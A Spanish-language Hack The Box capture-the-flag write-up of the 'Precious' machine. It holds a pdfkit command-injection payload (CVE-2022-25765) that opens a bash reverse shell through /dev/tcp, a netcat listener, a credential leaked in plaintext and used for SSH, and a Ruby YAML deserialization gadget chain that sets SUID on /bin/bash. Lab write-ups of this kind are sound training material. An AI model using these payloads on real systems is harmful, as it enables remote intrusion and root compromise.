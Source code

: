 ```yaml
---
title: "Precious HTB Writeup"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: /assets/images/CTFs/Precious-HTB/icon.png
  teaser_home_page: true  
  icon: /assets/images/HackTheBox-icon.png
categories:
  - HackTheBox 
  - Easy
tags:
  - Web
  - YAML
---
```

![Precious](/assets/images/CTFs/Precious-HTB/header.png)

# Reconocimiento 🔎 

Como siempre realizamos un pequeño escaneo de puertos rápido con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -p- 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/01.png)

Continuamos con un escaneo más avanzado de estos puertos.
```bash
sudo nmap -sV -p 22,80 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/02.png)

Ahora vamos a configurar nuestro fichero `/etc/hosts` para poder ver el servicio http.

![image](/assets/images/CTFs/Precious-HTB/03.png)

Nos dirigimos hacia la web y vamos a poder ver que la web es un convertidor web a pdf.

![image](/assets/images/CTFs/Precious-HTB/04.png)

Así que para probarlo vamos a lanzar un servidor web en nuestra máquina local a través de python.
```bash
python3 -m http.server 80
```
![image](/assets/images/CTFs/Precious-HTB/06.png)

Así que ahora vamos a probar introduciendo la IP de la máquina atacante en el servicio web de la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/07.png)

Y como podemos ver se ha convertido nuestra web en un PDF como se esperaba, así que vamos a descargar el PDF para analizarlo con la herramienta `exiftool`.

![image](/assets/images/CTFs/Precious-HTB/08.png)

Vemos que ha sido generado por una herramienta: `pdfkit v0.8.6`. La cuál si hacemos una búqueda en Google, podemos ver que es vulnerable a `Command Injection`.

![image](/assets/images/CTFs/Precious-HTB/09.png)

Tras informarme más sobre este CVE, podemos saber que tenemos que introducir el parametro `name` y dentro usar los ```backticks``` para inyectar nuestro comando.<br>
- Para saber más sobre CVE-2022-25765:<br>
[https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 ](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) 

<br><br>

# Explotación 🔑
Vamos a probar si funciona el exploit mencionado anteriormente:
```bash
http://10.10.14.46/?name=%20`pwd`
```
![image](/assets/images/CTFs/Precious-HTB/10.png)<br>
Y vemos que funciona correctamente.

![image](/assets/images/CTFs/Precious-HTB/11.png)<br>

Así manos a la obra. Este será el payload que voy a introducir:
```bash
http://10.10.14.46/?name=%20`/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/4747 0>&1'`
```

Antes de lanzar el payload vamos abrir un listener con netcat:
```bash
nc -nvlp 4747
```
<br>
Ejecutamos el payload y ya tendriamos acceso a la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/12.png)<br>

Tenemos acceso al usuario ruby pero no existe ningún fichero para ejecutar como root, así que vamos a pivotar al usuario henry mediante el fichero `config` en el directorio `.bundle` que he encontrado.
```bash
ruby@precious:/var/www/pdfapp$ cd ~
cd ~
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  3 06:34 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ ls -al .bundle 
ls -al .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
Accedemos al usuario henry mediante ssh:
```bash
ssh henry@10.10.11.189 
```
![image](/assets/images/CTFs/Precious-HTB/13.png)<br>
Ahora pasamos a la siguiente fase para terminar con el CTF.

<br><br>

# Escalada de Privilegios 🚀
Ya teniendo acceso al usuario henry el siguiente paso sería escalar los privilegios a root.<br><br>
Vamos a listar fichero que se ejecuta como root dentro del usuario henry:

![image](/assets/images/CTFs/Precious-HTB/14.png)<br>

Obtenemos el fichero `update_dependencies.rb` que podemos ejecutarlo como usuario root. Vamos a echarle un vistazo.

![image](/assets/images/CTFs/Precious-HTB/15.png)<br>

Mirando el código veo que utiliza un YAML.load, cuál es vulnerable a ataques de deserialización YAML.<br>
<br>
Puedes ver más sobre ataques de deserialización YAML en el siguiente enlace:<br>
[https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md](https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md)
<br><br>

Ahora podemos explotar con nuestro fichero `dependencies.yml`.

![image](/assets/images/CTFs/Precious-HTB/16.png)<br>
### dependencies.yml

```yml
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```
<br>

Ejecutar el fichero con permisos de ejecución root.

![image](/assets/images/CTFs/Precious-HTB/17.png)<br>
<br>
Y ya con esto tenemos el usuario root a nuestra disposición. Y poder conseguir la **FLAG**.

![image](/assets/images/CTFs/Precious-HTB/18.png)<br>
<br>

---

<br>
Espero que te haya servido de ayuda este post. Me ayudarías mucho si lo compartes en tus **RRSS**, GRACIAS!

